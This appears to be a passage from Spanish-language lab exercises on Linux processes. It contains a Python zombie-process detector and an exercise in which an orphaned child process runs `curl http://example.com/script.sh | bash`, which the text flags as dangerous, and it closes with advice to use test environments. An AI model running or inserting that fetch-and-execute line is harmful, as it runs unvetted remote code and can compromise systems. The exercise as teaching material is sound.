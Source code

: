 ```python
import os

def detectar_zombis():
    for pid in os.listdir('/proc'):
        if pid.isdigit():
            try:
                with open(f"/proc/{pid}/status") as f:
                    lines = f.readlines()
                    estado = next((l for l in lines if l.startswith("State:")), "")
                    if "Z" in estado:
                        nombre = next((l for l in lines if l.startswith("Name:")), "").split()[1]
                        ppid = next((l for l in lines if l.startswith("PPid:")), "").split()[1]
                        print(f"Zombi detectado → PID: {pid}, PPID: {ppid}, Nombre: {nombre}")
            except IOError:
                continue

detectar_zombis()
```

---

### Ejercicio 10: Inyección de comandos en procesos huérfanos

```python
import os, time

pid = os.fork()
if pid > 0:
    os._exit(0)  # El padre termina inmediatamente
else:
    print("[HIJO] Ejecutando script como huérfano...")
    os.system("curl http://example.com/script.sh | bash")  # Peligroso si no hay control
    time.sleep(3)
```

---

## Recomendaciones Finales

- Usa `htop`, `pstree`, y `ps -el` para observar los efectos de cada ejercicio.
- Ejecuta con permisos limitados y en entornos de prueba (máquinas virtuales o contenedores).
- Modifica los códigos para generar variantes: múltiples niveles de procesos, procesos que fallan, etc.

---
